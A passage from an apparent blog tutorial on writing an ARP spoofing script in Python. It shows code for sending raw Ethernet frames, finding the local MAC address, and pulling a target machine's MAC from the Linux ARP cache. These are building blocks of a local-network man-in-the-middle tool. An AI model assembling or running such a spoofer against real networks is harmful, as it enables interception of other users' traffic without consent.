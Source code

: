 Ok, we have our packet. It's time to find a way to send it.

## Sending ethernet frames with python's socket module

Luckily, [socket module](https://docs.python.org/3/library/socket.html) enables us to send raw eth packets. All we have to do is to use [AF_PACKET](https://docs.python.org/3/library/socket.html#socket.AF_PACKET) as an address family and [SOCK_RAW](https://docs.python.org/3/library/socket.html#socket.SOCK_RAW) as a socket type. After that, we need to bind it to our ethernet interface and we are ready to send a packet.

{% highlight python %}
def send(packet, interface):
    with socket(AF_PACKET, SOCK_RAW) as s:
        s.bind((interface, 0))
        s.send(packet)
{% endhighlight %}

Now, we can create packets and send them. What's left is to gather some additional information.

## Finding mac address of your and target's machines

We could of course manually check those mac addresses and pass them to our spoofing script but let's automate this for our convenience.

### Your mac

To get our MAC we can use [getnode](https://docs.python.org/3/library/uuid.html#uuid.getnode) function of [uuid](https://docs.python.org/3/library/uuid.html#module-uuid) module.

{% highlight python %}
from uuid import getnode

# ...

    our_mac = getnode()

# ...
{% endhighlight %}

### Target's mac

By now, we could send an ARP request and wait for an response from target's machine but we are going to be a little bit lazy here :). We will simply send anything to the target to make sure that we have an entry for its ip in our ARP cache (on linux boxes it will be stored in `/proc/net/arp`) and then read it from the cache with a little bit of parsing:

{% highlight python %}
def fill_arp_cache_with(ip):
    echo_port = 80
    timeout = 10
    with socket(AF_INET, SOCK_DGRAM) as s:
        s.sendto(b'\x00', (ip, echo_port))


def read_mac_from_arp_cache(ip):
    result = 0
    while result == 0:
        with open('/proc/net/arp') as f:
            arps = f.read()
    
        line = [line for line in arps.split('\n') if ip in line][0]
        mac = line.split()[3]
        result = int(mac.replace(':', ''), 16)

    return result
